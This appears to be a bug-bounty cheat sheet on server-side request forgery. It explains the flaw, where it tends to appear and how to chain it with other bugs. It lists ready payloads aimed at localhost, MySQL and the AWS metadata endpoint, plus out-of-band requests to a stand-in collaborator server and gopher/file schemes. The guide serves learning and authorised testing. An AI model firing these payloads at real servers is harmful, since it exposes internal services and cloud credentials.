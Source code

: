 ""# 🚨 Server-Side Request Forgery (SSRF)

---

## 💡 **What is SSRF?**
**SSRF (Server-Side Request Forgery)** is a vulnerability that allows an attacker to make the server-side application send requests to unintended locations, potentially exposing sensitive data from internal servers or other resources.

---

## 🧠 **Example Scenario:**
A website sends a request to its database to check for a product:
```http
GET /example.txt?file=product.txt HTTP/1.1
Host: localhost:8000
User-Agent: example
Accept: */*
Connection: close
```

### 🔍 **Exploitation:**
By changing `product.txt` to `passwords.txt` or `http://localhost:8080`, an attacker might retrieve sensitive data.

---

## 🔗 **SSRF for Recon:**
```http
http://internal-ip:port
```

---

## 🚦 **Common Payloads:**
- `http://localhost:8000/admin`
- `http://127.0.0.1:3306` (MySQL)
- `http://169.254.169.254/latest/meta-data` (AWS Metadata)
- `http://internal-api.local/api/v1/users` (Accessing Internal APIs)

---

## 🔗 **Triggering Out-of-Band (OOB) Requests:**
- Use **Burp Collaborator**, **Interactsh**, or your own server to identify:
  - Internal hostnames
  - Egress points
  - Firewall rules

**Example:**
```http
GET /vulnerable-endpoint?url=http://your-collaborator-server.com
```

---

## 🔗 **Chaining SSRF with Other Bugs:**
SSRF can be combined with vulnerabilities like **XSS**:
```http
GET /example.txt?file=http://yourWebsite/XSS.svg HTTP/1.1
```

---

## 🎯 **Impact:**
The severity ranges from **medium** to **critical** based on the data exposed.

---

## 💡 **Tips for Finding SSRF:**
- Can sensitive data be accessed?
- Is privilege escalation possible?
- Can SSRF lead to **lateral movement** within the network?
- Is there potential for **chaining** with other bugs?
- Always explore escalation opportunities!

---

## 🌐 **Where to Look for SSRF Vulnerabilities:**

### 1. **URL Fetching Functionality:**
- File Uploads
- Image/Media Previews
- PDF Generation (e.g., **wkhtmltopdf**)
- Social Media Embeds

### 2. **Webhooks & Integrations:**
- Webhook Callbacks
- Third-Party API Integrations

### 3. **File Retrieval & Proxying:**
- File Download Endpoints
- HTTP Proxy Functionality
- URL Shorteners

### 4. **Import/Export Features:**
- Data Imports (CSV, XML, JSON)
- Feeds & Syndication (RSS/Atom)

### 5. **API Interactions:**
- GraphQL or REST APIs with URL parameters
- Cloud Metadata Services (AWS, GCP, Azure)

### 6. **Admin Panels & Internal Tools:**
- Admin Functionality for Fetching URLs
- Monitoring & Debug Tools

### 7. **Uncommon Protocols:**
- `file://`, `gopher://`, `ftp://`, `dict://`
- Email Services (`mailto:` interaction with SMTP servers)

---

## 📚 **Helpful Resources:**
1. 📝 **PortSwigger SSRF Topic:** [Read more](https://portswigger.net/web-security/ssrf)
2. 🎓 **Snyk SSRF Lesson:** [Learn here](https://learn.snyk.io/lesson/ssrf-server-side-request-forgery/)
3. 📖 **Medium Writeups:**
   - [Bypassing SSRF Protection](https://vickieli.medium.com/bypassing-ssrf-protection-e111ae70727b)
   - [Highest Bounty Ever](https://medium.com/techfenix/ssrf-server-side-request-forgery-worth-4913-my-highest-bounty-ever-7d733bb368cb)
   - [SSRF to Server Takeover](https://medium.com/@malvinval/ssrf-to-server-takeover-poc-bug-bounty-writeup-82d6715e333d)
   - [HackerOne SSRF Story](https://medium.com/@josekuttykunnelthazhebinu/how-i-uncovered-an-ssrf-vulnerability-in-a-private-hackerone-program-4c3146b414ff)

---
""

